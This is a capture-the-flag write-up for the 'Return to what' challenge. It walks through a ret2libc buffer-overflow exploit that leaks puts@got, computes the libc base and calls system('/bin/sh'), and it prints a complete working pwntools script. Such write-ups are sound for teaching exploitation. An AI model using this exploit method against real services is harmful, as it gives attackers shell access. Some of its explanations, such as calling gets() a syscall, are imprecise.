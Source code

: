 # Challenge Name : Return to what

# Challenge Description : 

This will show my friends!

## Analysis of the binary

Upon running a checksec on the binary, we see the following : 

```
   Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE
```

It seems that there is Partial Relro, that means we can do a `ret-to-libc` easily. 

The following is the `vuln()` function from the ghidra decompiler : 

```
void vuln(void)

{
  char local_38 [48];
  
  puts("Where would you like to return to?");
  gets(local_38);
  return;
}
```

We see that the buffer size if 48 and there is a `gets()` syscall. We can easily get a buffer overflow and leak the address of the puts function and then get the base address for libc. 

From here we can get the version of the libc that is being used by the server and create a ropchain using the syscall offsets from that libc that we have found out.


## Leaking the Remote Libc

First find out the offset at which the buffer overflow is triggered. It turns out to be 56. Then take a Rop Gadget from the binary. I used the tool called Ropper to get a Ropgadget.

```
ropper --file return-to-what
```

I will use the gadget `pop rdi; ret` which will allow me to jump to the code on the stack that I have placed after the buffer overflow. 

Then I'll need the `puts@plt` and the `puts@got` from the binary. We will leak the address of `puts@got` from the remote binary, so it will be placed as the parameter for `puts@plt` call and then return the function to `main` to continue the execution of the program further. 

So the following piece of code will leak the puts@got from the remote libc


```
from pwn import *

context.terminal = ["tmux", "splitw", "-v"]
context.log_level = 'DEBUG'
#for local
elf = context.binary = ELF("./return-to-what")
libc = ELF("./local_libc.so.6")
#libc = ELF("./libc6_2.27-3ubuntu1_amd64.so")
sh = gdb.debug("./return-to-what")
#for remote
#sh = remote("chal.duc.tf", 30003)

puts_got = p64(elf.got[b'puts'])
puts_plt = p64(elf.plt[b'puts'])
main_plt = p64(elf.symbols[b'main'] + 1)
padding = b'a'*56
pop_rdi = p64(0x000000000040122b)

# Leaking libc

payload = padding + pop_rdi + puts_got + puts_plt + main_plt
sh.sendlineafter("?\n",payload)
puts_leaked = sh.recvline().rstrip()
puts_leaked = u64(puts_leaked.ljust(8,b"\x00"))
print("LEAK : ",hex(puts_leaked))
```

After leaking the remote libc find out the libc version in the libc database. I used the online libc database.


## Calculating Libc base and other offsets

After downloading the remote libc, calculate the offets and the libc base as follows : 

```
#Calculating libc base from the offset

puts_offset = libc.symbols[b'puts']
libc_base = puts_leaked - puts_offset
print("LIBC Base : ",hex(libc_base))
system_offset = libc.symbols[b'system']
binsh_offset = next(libc.search("/bin/sh"))
exit_offset = libc.symbols[b'exit']

system = p64(libc_base + system_offset)
binsh = p64(libc_base + binsh_offset)
exit = p64(libc_base + exit_offset)
```

Also find the actual addresses of the functions as shown above. 


## Final Exploit

```
from pwn import *

context.terminal = ["tmux", "splitw", "-v"]
context.log_level = 'DEBUG'
#for local
elf = context.binary = ELF("./return-to-what")
libc = ELF("./local_libc.so.6")
#libc = ELF("./libc6_2.27-3ubuntu1_amd64.so")
sh = gdb.debug("./return-to-what")
#for remote
#sh = remote("chal.duc.tf", 30003)

puts_got = p64(elf.got[b'puts'])
puts_plt = p64(elf.plt[b'puts'])
main_plt = p64(elf.symbols[b'main'] + 1)
padding = b'a'*56
pop_rdi = p64(0x000000000040122b)

# Leaking libc

payload = padding + pop_rdi + puts_got + puts_plt + main_plt
sh.sendlineafter("?\n",payload)
puts_leaked = sh.recvline().rstrip()
puts_leaked = u64(puts_leaked.ljust(8,b"\x00"))
print("LEAK : ",hex(puts_leaked))

#Calculating libc base from the offset

puts_offset = libc.symbols[b'puts']
libc_base = puts_leaked - puts_offset
print("LIBC Base : ",hex(libc_base))
system_offset = libc.symbols[b'system']
binsh_offset = next(libc.search("/bin/sh"))
exit_offset = libc.symbols[b'exit']

system = p64(libc_base + system_offset)
binsh = p64(libc_base + binsh_offset)
exit = p64(libc_base + exit_offset)

payload1 = padding + pop_rdi + binsh + system
sh.sendlineafter("?\n",payload1)

sh.interactive()
```

